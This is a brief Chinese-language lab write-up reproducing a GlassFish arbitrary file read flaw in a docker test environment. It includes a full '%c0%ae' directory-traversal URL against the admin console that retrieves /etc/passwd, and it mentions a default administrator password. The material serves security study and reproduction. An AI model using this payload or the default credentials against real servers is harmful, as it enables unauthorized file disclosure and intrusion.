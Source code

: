 GlassFish 任意文件读取漏洞
==========================

一、漏洞简介
------------

java语言中会把`%c0%ae`解析为`\uC0AE`，最后转义为ASCCII字符的`.`（点）。利用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来向上跳转，达到目录穿越、任意文件读取的效果。

二、漏洞影响
------------

三、复现过程
------------

编译、运行测试环境

    docker-compose build
    docker-compose up -d

环境运行后，访问`http://www.0-sec.org:8080`和`http://www.0-sec.org:4848`即可查看web页面。其中，8080端口是网站内容，4848端口是GlassFish管理中心。

访问`https://www.0-sec.org:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd`，发现已成功读取`/etc/passwd`内容：![1.png](./.resource/GlassFish任意文件读取漏洞/media/rId24.png)

ps:本环境超级管理员密码在docker-compose.yml中设置，默认为vulhub\_default\_password，在4848端口利用该密码可以登录管理员账户。

参考链接
--------

> https://vulhub.org/\#/environments/glassfish/4.1.0/

